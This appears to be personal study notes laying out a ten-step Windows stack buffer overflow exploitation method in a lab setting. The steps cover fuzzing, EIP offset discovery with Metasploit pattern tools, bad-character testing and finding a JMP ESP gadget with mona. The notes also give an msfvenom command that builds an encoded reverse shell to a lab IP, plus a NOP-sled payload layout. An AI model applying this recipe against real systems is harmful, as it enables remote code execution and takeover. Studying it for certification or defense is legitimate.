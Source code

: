 # Step 1: Fuzz the program

Probably using a python script. Fuzz the input to see what size buffer overflow you need to pass in order to crash the program. 

# Step 2: Find the offset

Use pattern_create 

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length of buffer>

Pass the output to the program

Take the value in the EIP and use it with pattern_offset.rb

/usr/share/metasploit-framework/tools/exploit./pattern_offset.rb -l <length of buffer> -q <EIP value> 

# Step 3: Confirm you can control the buffer

Use the offset value to confirm you can control the buffer

Send "A" * <offset> + "B" * 4 + "C" * <length of buffer - 4 - offset> to the program 

Make sure that BBBB (42424242) is written to the EIP


# Step 4: Check for Bad characters

badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )


Look at the buffer and see if there are any characters that cause the buffer to be truncated or are skipped over. (we can also assume that \x00 is a bad character always) 

# Step 5: Find space for your shellcode:

We assume the general size for a payload is about 351 bytes. 

So we need to see where we can put this. To do this, we can try to just increase the amount of "C"'s that we are passing to the program. 


## Step 5b:

If we do not have this option, another thing we could do was look to see if a register is pointing to another point in the code we passed it. 

For example, the crossfire buffer overflow had the EAX pointing to the beginning of the string we passed it. It was "setup sound:AAAAAA.." But we had some space after the EIP to play with. There were 5 bytes of "C" in the stack that the ESP was pointing to. 

So, we needed to use 

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 

to do: 

Add eax, 12 (this is to bypass the setup sound string at the beginning of the EAX space)

\x83\xc0\x0c

Jmp eax (to jump to where the eax is) 

\xff\xe0



# Step 6: Redirect execution flow

Need to find a JMP ESP command in a module that is: 

	1. No memory protections such as DEP and ASLR
	2. Has a memory range that does not contain bad characters

We can find this by using the mona.py script in immunity debugger. 

Do this by typing in the command: 

!mona modules

Look for a module with: 
	1. Rebase = False
	2. SafeSEH = False
	3. ASLR = False
	4. NXCompat = False

Once this is identified, we need to find a JMP ESP command in this module

To do this, we use the mona.py script again: 

!mona find -s "\xff\xe4" -m <modules> (slmfc.dll for example) 

Pick a pointer without any bad characters. 

# Step 7: Control the EIP

Put the JMP ESP command where the B's were. 

Remember, since windows x86 architecture stores things in little endian. So we have to put the address in backwards. 

For example, 0x5f4a358f would be written as this in the script:

"\x8f\x35\x4a\x5f"

# Step 8: Generate payload

Using msfvenom we need to generate a reverse shell that avoids bad chars


msfvenom -p windows/shell_reverse_tcp  EXITFUNC=thread -f python LHOST=10.11.0.41 LPORT=443 -e x86/shikata_ga_nai -b "\x00\x0a\x0d"


# Step 9: Add shellcode to exploit

Important thing here is that we need a NOP sled before the exploit. 

We do this by adding "\x90" * 8 before the shellcode. 

So it would be: "A" * offset  + "JMP ESP to point to" + "/x90" * 8 + shellcode

# Step 10: Execute and get shell

Simple as 123
